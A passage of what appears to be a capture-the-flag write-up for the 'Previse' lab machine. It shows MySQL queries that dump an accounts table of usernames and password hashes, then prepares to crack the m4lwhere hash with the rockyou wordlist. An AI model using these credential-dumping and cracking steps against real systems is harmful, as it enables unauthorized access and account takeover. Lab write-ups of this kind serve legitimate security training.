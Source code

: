 > show databases;

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
```

> use previse;

```
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

> show tables;

```
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```

> select * from accounts;

```
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | admin123 | $1$🧂llol$G3KunFyMrVvsqYP1JpRi70 | 2021-10-09 21:09:02 |
|  3 | admin    | $1$🧂llol$uXqzPW6SXUONt.AIOBqLy. | 2021-10-09 22:13:19 |
|  4 | dildo5   | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2021-10-10 01:24:22 |
|  5 | test123  | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2021-10-10 03:53:42 |
+----+----------+------------------------------------+---------------------+
5 rows in set (0.01 sec)
```

### Select m4lwhere password and paste it on [txt file](./site/hash.txt)

- [rockyou.txt](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) need to download and unwrap it
